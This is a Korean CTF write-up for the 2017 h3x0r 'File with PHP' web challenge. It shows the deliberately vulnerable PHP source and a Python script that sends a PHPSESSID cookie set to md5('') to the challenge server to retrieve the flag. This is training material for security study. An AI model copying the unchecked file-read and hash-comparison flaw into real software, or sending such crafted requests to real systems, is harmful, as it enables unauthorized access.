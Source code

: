 # 2017 h3x0r WEB - File with PHP

## Key words

- $\_SESSION, $\_COOKIE
- (php) preg_match
- (php) unlink
- (php) NULL == "" (empty-string not \x00)

## Solution

문제에 접속하면 `Blank Page. LoL` 이라고만 뜨고 아무것도 뜨질 않습니다. 소스보기를 해보아도 별다른게 보이지 않아 `쿠키` 값을 확인해보았습니다.

확인 결과 해더 쿠키쪽에 다음과 같이 설정이 되어 있음을 볼 수 있습니다.

> Cookie:source=0; PHPSESSID=vpjjvib3sska8mgdglp3vg7in5

`PHPSESSID`는 PHP세션을 위해 존재하지만 `source`내용이 의심스럽습니다. 이 값을 `1`로 변경해보고 다시 요청하면 페이지에 문제 소스 코드가 나타나게 됩니다.

```php
<?php
    $flag = 1;
    include "config.php";

    $_SESSION[cookie] = $_COOKIE[PHPSESSID];

    if($_GET['mode']=="pwn") {

        $f=file("$_SESSION[cookie].txt");

        if(preg_match("/^$_SESSION[cookie]$/i", md5($f[0]))) {
            unlink("$_SESSION[cookie].txt");
            echo $flag;
        }

        $f = fopen(md5($_SESSION[cookie]).".txt", "w");
        fwrite($f,$_SESSION[cookie]);
        fclose($f);
        usleep(300000);
        unlink(md5($_SESSION[cookie]).".txt");
    }

    if($_COOKIE['source']) {
        show_source(__FILE__);
        exit();
    }

    setcookie('source', 0);
    echo "<h3> Blank Page. LoL </h3>";
?>
```

문제에서 제공된 소스의 첫 부분에 `$flag = 1`로 되어 있지만 실제로 서버에서는 달리 설정되어 있거나, `config.php`에서 정상적인 flag 값으로 설정하게 됩니다.

문제에서 flag를 얻는 플로우는 다음과 같습니다.

- $\_GET['mode']의 값이 `pwn`
- 유저가 요청한 쿠키의 `PHPSESSID`값을 읽어 $\_SESSION[cookie]에 저장한 뒤, `$\_SESSION[cookie].txt` 파일을 읽음
- 읽은 파일의 첫 번째 줄과 $\_SESSION[cookie]가 일치하게 되면 플래그를 출력

문제에서 로직적으로 버그가 생기는 부분은 처음에 세션을 사용자로부터 받고 파일을 읽었을 때, 해당 파일이 존재하지 않는 경우에 대해 처리가 안되어 있다는 점 입니다.

만약 쿠키 세션을 서버에 파일로 존재하지 않는 값으로 전달하게 되면 `$f[0]`의 값이 `null`이 되게 되고 결국 `md5(null)`과 제가 전달한 세션 값을 비교하고 동일한지 체크 하게 됩니다.

따라서, 쿠키의 세션값을 `md5(null)`로 만들어서 전달할 때 서버쪽에 해당 파일이 존재 하지 않는다면 플래그를 출력 할 것입니다.

한 가지 주의할 점은 `$f[0]`가 `NULL`값을 갖지만 널 값은 스페셜 문자로 사용되는 언어나 라이브러리에 따라서 달라 질 수 있습니다.

제공된 PHP 버전의 `NULL`값은 `Empty String`이기 때문에 `md5("")`로 해쉬를 해야 합니다.

## Code

```python
import requests
import hashlib

url = "http://13.124.93.183/h3x0rctf/d41d8cd98f00b204e9800998ecf8427e.php"

headers = { "Cookie": "PHPSESSID=" + hashlib.md5("").hexdigest() }
params  = { "mode": "pwn" }
r = requests.get(url, params=params, headers=headers)
print r.content

# result
# H3X0R{c65a4cb5ecf62bb0c995b7cd7b54db71}<h3> Blank Page. LoL </h3>
```
